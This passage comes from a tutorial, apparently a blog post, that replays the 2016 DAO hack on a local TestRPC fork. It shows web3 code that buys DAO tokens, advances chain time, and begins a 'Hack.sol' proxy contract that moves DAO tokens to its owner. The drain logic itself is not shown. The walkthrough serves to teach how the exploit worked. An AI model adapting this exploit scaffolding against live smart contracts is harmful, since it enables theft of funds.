 Participating in the presale is just a matter of sending Ether to the DAO contract. We can use a normal transaction to do this. Below, we buy 90 ETH worth of DAO tokens:

```javascript
var DAO = DAOContract.at("0xbb9bc244d798123fde783fcc1c72d3bb8c189413");

web3.eth.sendTransaction({
  from: accounts[0],
  to: DAO.address,
  value: web3.toWei(90, "Ether"),
  gas: 90000
}, callback);
```

Note that the `accounts` array is populated by our script, which used `web3.eth.getAccounts()` to get a list of all available accounts provided to us by the TestRPC. As well, we've pointed an instance of the DAO contract to the address [0xbb9bc244d798123fde783fcc1c72d3bb8c189413](https://etherscan.io/address/0xbb9bc244d798123fde783fcc1c72d3bb8c189413), which is the original DAO account and code.

Again, for example's sake we're using some shorthand, so please follow along [with the script on github](https://github.com/tcoulter/dao-truffle/blob/master/index.js).

### Step 3: Wait for the presale to end

Since we forked to a block that was mined the day before the presale ended, we have to jump forward in time by at least a few hours to get past the presale deadline. We decided to jump a day by calling a special method provided by the TestRPC, `evm_increaseTime`:

```javascript
web3.currentProvider.sendAsync({
  jsonrpc: "2.0",
  method: "evm_increaseTime",
  params: [86400],  // 86400 seconds in a day
  id: new Date().getTime()
}, callback);
```

This will tell the TestRPC to alter its timestamp by `86400` seconds. This feature allows you to write tests that have a time component, and in our case allows us to continue executing code after a deadline is reached.

### Step 4: Deploy our hack contract to the network

This hack contract was written by me, but it was heavily influenced by [this writeup](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/) written by Phil Daian from [Hacking, Distributed](http://hackingdistributed.com/). Many thanks go to him for such a clear writeup.

From Github: [./contracts/Hack.sol](https://github.com/tcoulter/dao-truffle/blob/master/contracts/Hack.sol)
```javascript
import "DAOInterface.sol";

contract Proxy {
  DAOInterface DAO;
  address owner;

  function Proxy(address _dao) {
    owner = msg.sender;
    DAO = DAOInterface(_dao);
  }

  function empty() {
    if (msg.sender != owner) return;

    uint balance = DAO.balanceOf(this);
    DAO.transfer(owner, balance);
  }
}
```